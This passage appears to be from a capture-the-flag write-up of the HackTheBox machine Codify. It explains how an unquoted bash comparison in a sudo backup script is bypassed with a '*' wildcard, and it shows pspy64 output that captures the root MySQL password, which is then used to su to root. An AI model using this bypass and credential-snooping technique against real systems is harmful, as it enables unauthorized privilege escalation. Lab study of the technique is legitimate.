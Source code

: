 There's no PATH hijacking since all the commands use the full PATH. `pspy64` could allow me to read the `root` password since it is directly passed into the `mysqldump` command. However, I needed to somehow bypass the `if [[$DB_PASS == $USER_PASS]]` check first.

I know that my input is directly passed into it, and it is not sanitised at all, and there was no way for me to read the actual password. The question here is, **how do I always force a true condition for a string comparison?**

During my testing, I realised I could enter special characters. Using the wildcard `*` character, the `if` condition is always true, because `*` matches all characters and spaces.

As such, in a second shell as `joshua`, I ran `pspy64`. In my initial shell, I ran the script as `root`, and was able to capture the password:

```
2023/11/05 04:30:49 CMD: UID=1000 PID=2666   | sudo /opt/scripts/mysql-backup.sh 
2023/11/05 04:30:49 CMD: UID=0    PID=2667   | /bin/bash /opt/scripts/mysql-backup.sh 
2023/11/05 04:30:50 CMD: UID=???  PID=2671   | ???
2023/11/05 04:30:50 CMD: UID=0    PID=2672   | /bin/bash /opt/scripts/mysql-backup.sh 
2023/11/05 04:30:50 CMD: UID=0    PID=2674   | /usr/bin/grep -Ev (Database|information_schema|performance_schema)                                                                         
2023/11/05 04:30:50 CMD: UID=0    PID=2673   | /usr/bin/mysql -u root -h 0.0.0.0 -P 3306 -pkljh12k3jhaskjh12kjh3 -e SHOW DATABASES;                                                       
2023/11/05 04:30:50 CMD: UID=0    PID=2678   | /bin/bash /opt/scripts/mysql-backup.sh 
2023/11/05 04:30:50 CMD: UID=0    PID=2677   | /usr/bin/mysqldump --force -u root -h 0.0.0.0 -P 3306 -pkljh12k3jhaskjh12kjh3 mysql                                                        
2023/11/05 04:30:51 CMD: UID=0    PID=2681   | /bin/bash /opt/scripts/mysql-backup.sh 
2023/11/05 04:30:51 CMD: UID=0    PID=2680   | /bin/bash /opt/scripts/mysql-backup.sh 
2023/11/05 04:30:52 CMD: UID=???  PID=2684   | ???
2023/11/05 04:30:52 CMD: UID=0    PID=2685   | /usr/bin/chmod 774 -R /var/backups/mysql
```

Using this, I could `su` to `root`:

![](../../.gitbook/assets/htb-codify-image-7.png)

Rooted! Learnt something new here.